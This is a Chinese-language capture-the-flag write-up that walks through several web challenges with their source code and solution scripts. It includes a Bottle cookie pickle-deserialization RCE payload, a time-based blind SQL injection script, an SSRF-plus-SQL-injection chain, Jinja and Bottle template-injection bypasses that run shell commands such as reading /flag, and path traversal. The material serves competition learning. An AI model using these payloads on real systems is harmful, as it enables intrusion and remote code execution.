










Web
Signin
题目
1# -*- encoding: utf-8 -*-
2'''
3@File : main.py
4@Time : 2025/03/28 22:20:49
5@Author : LamentXU
6'''
7'''
8flag in /flag_{uuid4}
9'''
10from bottle import Bottle, request, response, redirect, static_file, run, route
11with open('../../secret.txt', 'r') as f:
12 secret = f.read()
13
14app = Bottle()
15@route('/')
16def index():
17 return '''HI'''
18@route('/download')
19def download():
20 name = request.query.filename
21 if '../../' in name or name.startswith('/') or name.startswith('../') or '\\' in name:
22 response.status = 403
23 return 'Forbidden'
24 with open(name, 'rb') as f:
25 data = f.read()
26 return data
27
28@route('/secret')
29def secret_page():
30 try:
31 session = request.get_cookie("name", secret=secret)
32 if not session or session["name"] == "guest":
33 session = {"name": "guest"}
34 response.set_cookie("name", session, secret=secret)
35 return 'Forbidden!'
36 if session["name"] == "admin":
37 return 'The secret has been deleted!'
38 except:
39 return "Error!"
40run(host='0.0.0.0', port=8080, debug=False)
目录穿越拿secret
1./.././../secret.txt
1Hell0_H@cker_Y0u_A3r_Sm@r7
看到get_cookie打pickle反序列化(get_cookie中会进行pickle反序列化)
1from bottle import cookie_encode
2import os
3
4secret = "Hell0_H@cker_Y0u_A3r_Sm@r7"
5
6class Name:
7 def __reduce__(self):
8 return (eval, ("""__import__('os').popen('calc').read()""",))
9
10exp = cookie_encode(('session',{"name": [Name()]}),secret)
11print(exp)
ezsql(手动滑稽)
这题大概fuzz一下可以发现username处waf很多
1,
2-
3=
4|
5*
6&
7空格
8order by
9like
10handler
11and
12union
在password处会对单双引号进行转义
那我们只需要想办法构造闭合然后打时间盲注，由于会对单引号进行转义，我这里用的无列名注入
1import requests
2
3url = "xxxxx"
4result = ""
5i = 0
6
7while True:
8 i = i + 1
9 head = 32
10 tail = 127
11 while head < tail:
12 mid = (head + tail) >> 1
13 # 查表名
14 # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
15 # 无列名注入
16 # payload = "select b from (select 1 as b,2 union select * from user limit 1,1)xrntkk"
17 payload = "select b from (select 1 as b union select * from double_check limit 1,1)xrntkk"
18
19
20 data = {
21 'username': "1'or\t1=",
22 'password': f'or if(ascii(substr(({payload}),{i},1))>{mid},sleep(1),1)#'
23 }
24 try:
25 r = requests.post(url, data=data, timeout=1)
26 print(r.text)
27 tail = mid
28 except requests.exceptions.Timeout:
29 head = mid + 1
30 except Exception as e:
31 print(f"An unexpected error occurred: {e}")
32 break
33
34 if head != 32:
35 result += chr(head)
36 else:
37 break
38 print("[*]Result : "+result)
可以拿到key
1[*]Result : dtfrtkcc0czkoua9S

在doublecheck.php中输入拿到的key后，会跳转到index.php，可以进行命令执行但是无回显
1cat%09/flag.txt>/var/www/html/flag
Fate
源码
1#!/usr/bin/env python3
2import flask
3import sqlite3
4import requests
5import string
6import json
7app = flask.Flask(__name__)
8blacklist = string.ascii_letters
9def binary_to_string(binary_string):
10 if len(binary_string) % 8 != 0:
11 raise ValueError("Binary string length must be a multiple of 8")
12 binary_chunks = [binary_string[i:i+8] for i in range(0, len(binary_string), 8)]
13 string_output = ''.join(chr(int(chunk, 2)) for chunk in binary_chunks)
14
15 return string_output
16
17@app.route('/proxy', methods=['GET'])
18def nolettersproxy():
19 url = flask.request.args.get('url')
20 if not url:
21 return flask.abort(400, 'No URL provided')
22
23 target_url = "http://lamentxu.top" + url
24 for i in blacklist:
25 if i in url:
26 return flask.abort(403, 'I blacklist the whole alphabet, hiahiahiahiahiahiahia~~~~~~')
27 if "." in url:
28 return flask.abort(403, 'No ssrf allowed')
29 response = requests.get(target_url)
30
31 return flask.Response(response.content, response.status_code)
32def db_search(code):
33 with sqlite3.connect('database.db') as conn:
34 cur = conn.cursor()
35 cur.execute(f"SELECT FATE FROM FATETABLE WHERE NAME=UPPER(UPPER(UPPER(UPPER(UPPER(UPPER(UPPER('{code}')))))))")
36 found = cur.fetchone()
37 return None if found is None else found[0]
38
39@app.route('/')
40def index():
41 print(flask.request.remote_addr)
42 return flask.render_template("index.html")
43
44@app.route('/1337', methods=['GET'])
45def api_search():
46 if flask.request.remote_addr == '127.0.0.1':
47 code = flask.request.args.get('0')
48 if code == 'abcdefghi':
49 print('0 win!')
50 req = flask.request.args.get('1')
51 try:
52 req = binary_to_string(req)
53 print(req)
54 req = json.loads(req) # No one can hack it, right? Pickle unserialize is not secure, but json is ;)
55 except:
56 flask.abort(400, "Invalid JSON")
57 if 'name' not in req:
58 flask.abort(400, "Empty Person's name")
59
60 name = req['name']
61 if len(name) > 6:
62 flask.abort(400, "Too long")
63 if '\'' in name:
64 flask.abort(400, "NO '")
65 if ')' in name:
66 flask.abort(400, "NO )")
67 """
68 Some waf hidden here ;)
69 """
70
71 fate = db_search(name)
72 if fate is None:
73 flask.abort(404, "No such Person")
74
75 return {'Fate': fate}
76 else:
77 flask.abort(400, "Hello local, and hello hacker")
78 else:
79 flask.abort(403, "Only local access allowed")
80
81if __name__ == '__main__':
82 app.run(debug=True)
审计一下源码，看到init_db里面的fake flag，思路大概就是要在/proxy路由ssrf访问/1337路由去sql读flag
先看proxy，会将传入的url拼接到http://lamentxu.top后面
这里可用@来绕过
接着有两个判断，url中不能存在字母和.
这里用长整型绕过即可
/proxy?url=@2130706433:8080/1337
接着我们看/1337
1code = flask.request.args.get('0')
2if code == 'abcdefghi':
3 print('0 win!')
第一个判断要求传入一串字母，直接传显然过不了/proxy处的判断
我们这里可以二次编码绕过
接着往下看
1req = flask.request.args.get('1')
2 try:
3 req = binary_to_string(req)
4 print(req)
5 req = json.loads(req) # No one can hack it, right? Pickle unserialize is not secure, but json is ;)
6 except:
7 flask.abort(400, "Invalid JSON")
8 if 'name' not in req:
9 flask.abort(400, "Empty Person's name")
10
11 name = req['name']
12 if len(name) > 6:
13 flask.abort(400, "Too long")
14 if '\'' in name:
15 flask.abort(400, "NO '")
16 if ')' in name:
17 flask.abort(400, "NO )")
18 """
19 Some waf hidden here ;)
20 """
21
22 fate = db_search(name)
23 if fate is None:
24 flask.abort(404, "No such Person")
25
26 return {'Fate': fate}
这里会将传入的内容通过binary_to_string从二进制转换成字符串，接着会解析为json。接着有一连串waf。
这里我们通过字典绕过，然后构造闭合读flag即可
exp
1import requests
2
3#字符串转二进制
4def string_to_binary(input_string):
5 binary_chunks = [bin(ord(char))[2:].zfill(8) for char in input_string]
6 return ''.join(binary_chunks)
7
8url = "xxxxxxx"+"/proxy?url=%40%32%31%33%30%37%30%36%34%33%33%3a%38%30%38%30%2f%31%33%33%37%3f%30%3d%25%36%31%25%36%32%25%36%33%25%36%34%25%36%35%25%36%36%25%36%37%25%36%38%25%36%39%26%31%3d"
9payload = string_to_binary("""{"name": {"'))))))) union select FATE from FATETABLE where NAME='LAMENTXU'--":666}}""")
10# print(payload)
11req = requests.get(url+payload)
12data = req.json()
13print(data['Fate'])
Now you see me 1
从源代码中找出关键代码
1# YOU FOUND ME :)
2# -*- encoding: utf-8 -*-
3'''
4@File : src.py
5@Time : 2025/03/29 01:10:37
6@Author : LamentXU
7'''
8import flask
9import sys
10
11enable_hook = False
12counter = 0
13
14def audit_checker(event, args):
15 global counter
16 if enable_hook:
17 if event in ["exec", "compile"]:
18 counter += 1
19 if counter > 4:
20 raise RuntimeError(event)
21
22lock_within = [
23 "debug", "form", "args", "values",
24 "headers", "json", "stream", "environ",
25 "files", "method", "cookies", "application",
26 'data', 'url' ,'\'', '"',
27 "getattr", "_", "{{", "}}",
28 "[", "]", "\\", "/","self",
29 "lipsum", "cycler", "joiner", "namespace",
30 "init", "dir", "join", "decode",
31 "batch", "first", "last" ,
32 " ","dict","list","g.",
33 "os", "subprocess",
34 "g|a", "GLOBALS", "lower", "upper",
35 "BUILTINS", "select", "WHOAMI", "path",
36 "os", "popen", "cat", "nl", "app", "setattr", "translate",
37 "sort", "base64", "encode", "\\u", "pop", "referer",
38 "The closer you see, the lesser you find."]
39
40app = flask.Flask(__name__)
41
42@app.route('/')
43def index():
44 return 'try /H3dden_route'
45
46@app.route('/H3dden_route')
47def r3al_ins1de_th0ught():
48 global enable_hook, counter
49 name = flask.request.args.get('My_ins1de_w0r1d')
50 if name:
51 try:
52 if name.startswith("Follow-your-heart-"):
53 for i in lock_within:
54 if i in name:
55 return 'NOPE.'
56 enable_hook = True
57 a = flask.render_template_string('{#{name}#}')
58 enable_hook = False
59 counter = 0
60 return a
61 else:
62 return 'My inside world is always hidden.'
63 except RuntimeError as e:
64 counter = 0
65 return 'NO.'
66 except Exception as e:
67 return 'Error'
68 else:
69 return 'Welcome to Hidden_route!'
70
71if __name__ == '__main__':
72 import os
73 try:
74 import _posixsubprocess
75 del _posixsubprocess.fork_exec
76 except:
77 pass
78 import subprocess
79 del os.popen
80 del os.system
81 del subprocess.Popen
82 del subprocess.call
83 del subprocess.run
84 del subprocess.check_output
85 del subprocess.getoutput
86 del subprocess.getstatusoutput
87 del subprocess.PIPE
88 del subprocess.STDOUT
89 del subprocess.CalledProcessError
90 del subprocess.TimeoutExpired
91 del subprocess.SubprocessError
92 sys.addaudithook(audit_checker)
93 app.run(debug=False, host='0.0.0.0', port=5000)
很明显的 SSTI，我们需要绕过一些过滤，看了一下发现 config 没有被过滤，所以我们可以用它来写入键值。
通过content-type传参来进行绕过waf
Payload：
1{{lipsum.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")}}
1GET /H3dden_route?My_ins1de_w0r1d=Follow-your-heart-%23}{%set%09a=config%}{%print(a.update(lip=a|attr(request.mimetype)))%}{%23 HTTP/1.1
2Host: eci-2zealrk72foronxmxgze.cloudeci1.ichunqiu.com:8080
3Content-Type: lipsum
4Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
5Connection: close
6
7GET /H3dden_route?My_ins1de_w0r1d=Follow-your-heart-%23}{%set%09a=config%}{%print(a.update(gl=a.lip|attr(request.mimetype)))%}{%23 HTTP/1.1
8Host: eci-2zealrk72foronxmxgze.cloudeci1.ichunqiu.com:8080
9Content-Type: __globals__
10Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
11Connection: close
12
13GET /H3dden_route?My_ins1de_w0r1d=Follow-your-heart-%23}{%set%09a=config%}{%print(a.update(get=request.mimetype))%}{%23 HTTP/1.1
14Host: eci-2zealrk72foronxmxgze.cloudeci1.ichunqiu.com:8080
15Content-Type: __getitem__
16Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
17Connection: close
18
19GET /H3dden_route?My_ins1de_w0r1d=Follow-your-heart-%23}{%set%09a=config%}{%print(a.update(bui=request.mimetype))%}{%23 HTTP/1.1
20Host: eci-2zealrk72foronxmxgze.cloudeci1.ichunqiu.com:8080
21Content-Type: __builtins__
22Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
23Connection: close
24
25GET /H3dden_route?My_ins1de_w0r1d=Follow-your-heart-%23}{%set%09a=config%}{%print(a.update(ev=request.mimetype))%}{%23 HTTP/1.1
26Host: eci-2zealrk72foronxmxgze.cloudeci1.ichunqiu.com:8080
27Content-Type: eval
28Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
29Connection: close
30
31GET /H3dden_route?My_ins1de_w0r1d=Follow-your-heart-%23}{%set%09a=config%}{%print(a.glb|attr(a.get)(a.bui)|attr(a.get)(a.ev)(request.mimetype))%}{%23 HTTP/1.1
32Host: eci-2zealrk72foronxmxgze.cloudeci1.ichunqiu.com:8080
33Content-Type: __import__('os').popen('mkdir static;cat /flag_h3r3 > static/flag').read()
34Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
35Connection: close
访问/static/flag拿到flag
Now you see me 2
这题跟上题打法一样，只是更换了传参的方式
1GET /H3dden_route?spell=fly-%23}{%set%09a=config%}{%print(a.update(clss=a|attr(request.range.units)))%}{%23 HTTP/1.1
2Host: 127.0.0.1:5000
3Range: __class__=100-200
4Connection: close
拿到一张图片，用在线解密提取图片隐藏信息，无需密码
1flag{__M@g1c1@ans_M@stering_M@g1c__}
出题人已疯
题目源码
1# -*- encoding: utf-8 -*-
2'''
3@File : app.py
4@Time : 2025/03/29 15:52:17
5@Author : LamentXU
6'''
7import bottle
8'''
9flag in /flag
10'''
11@bottle.route('/')
12def index():
13 return 'Hello, World!'
14@bottle.route('/attack')
15def attack():
16 payload = bottle.request.query.get('payload')
17 if payload and len(payload) < 25 and 'open' not in payload and '\\' not in payload:
18 return bottle.template('hello '+payload)
19 else:
20 bottle.abort(400, 'Invalid payload')
21if __name__ == '__main__':
22 bottle.run(host='0.0.0.0', port=5000)
用 import 加载模块，然后修改属性去实现变量持久化，从而去 RCE，然后可以用模板函数 include 去读文件
1%0a%import+os;os.a='__imp'
2%0a%import+os;os.b='ort__'
3%0a%import+os;os.a%2B=os.b
4%0a%import+os;os.b='("os"'
5%0a%import+os;os.a%2B=os.b
6%0a%import+os;os.b=').sys'
7%0a%import+os;os.a%2B=os.b
8%0a%import+os;os.b='tem("'
9%0a%import+os;os.a%2B=os.b
10%0a%import+os;os.b='ca'
11%0a%import+os;os.a%2B=os.b
12%0a%import+os;os.b='t+/f*'
13%0a%import+os;os.a%2B=os.b
14%0a%import+os;os.b='>1")'
15%0a%import+os;os.a%2B=os.b
16%0a%import+os;exec(os.a)
17
18%0a%import os;eval(os.a)
19%0a%include('1')
ez_puzzle
非预期
查看puzzle.js，看到有一大段base64

cyberchef转换一下

发现是zlib

看到一串hex
反转一下转字符串就能拿到flag

预期解

这题打开控制台会触发反调试
右键从忽略列表中移除即可

在代码中可以找到startTime和endTime，猜测应该是endTime-startTime来判断时间，所以直接在控制台给startTime赋一个大值
startTime=66666666666666
然后把拼图拼好即可拿到flag
出题人又疯(复现)
聊聊bottle框架中由斜体字引发的模板注入（SSTI）waf bypass - LamentXU - 博客园

这题主要是由于bottle框架中对编码检查的不严谨，所以可以利用python中会将exec执行的代码中的斜体字转换为对应的ASCII字符的特性来绕过waf。但是由于url编码问题，题目环境中只有o和a能够成功。

详细的得看lamentxu师傅的博客。
所以这题我们就可以把
'o'替换为'%ba',
'a'替换为'%aa',
payload
{{open('/flag').read()}}
替换
{\{%bapen('/flag').read()}} //这里的"\"是防止hugo报错加的，实际不需要
